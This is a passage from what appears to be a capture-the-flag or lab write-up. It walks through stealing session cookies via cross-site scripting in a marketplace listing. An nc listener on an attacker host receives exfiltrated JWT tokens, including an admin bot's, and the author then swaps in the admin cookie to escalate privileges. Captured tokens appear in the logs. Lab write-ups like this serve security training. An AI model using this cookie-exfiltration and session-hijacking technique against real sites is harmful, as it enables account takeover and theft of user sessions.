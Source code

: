 then start a listener on said port

We use it when creating our new listing...

And get our own cookie

```
└──╼ $nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 33142
GET /?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoiZmxvIiwiYWRtaW4iOmZhbHNlLCJpYXQiOjE2NDI4NTIwMTd9.jIodXdkw16d4Hlb3cecsHd3KqHuRuTqvVv7EsWnObzc HTTP/1.1
Host: 10.8.226.203:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: keep-alive
Referer: http://10.10.228.67/item/3
Sec-GPC: 1

```
Now report that listing to admins! 

its obviously a malicious listing...stealng people's cookies

(make sure to keep the listener alive)

We wait a bit and get admin's cookie

Note that I think it was unrealistically fast for a Reflected Xss (you usually wait for people to click on your malicious link wich may takes long)

This is probably running automatically with a cron-like job

```
└──╼ $nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 39020
GET /?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2NDI4NTIyNDV9.r1mGSf6yZVq33YPYEC3_xGPVkYxTPitiPr6ctYjKAn0 HTTP/1.1
Host: 10.8.226.203:8080
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://localhost:3000/item/3
Accept-Encoding: gzip, deflate
Accept-Language: en-US

```

Now replace your poor-people's cookie with extra-privileges flavored admin's cookie

You can just use the inspector/storage to change token's value
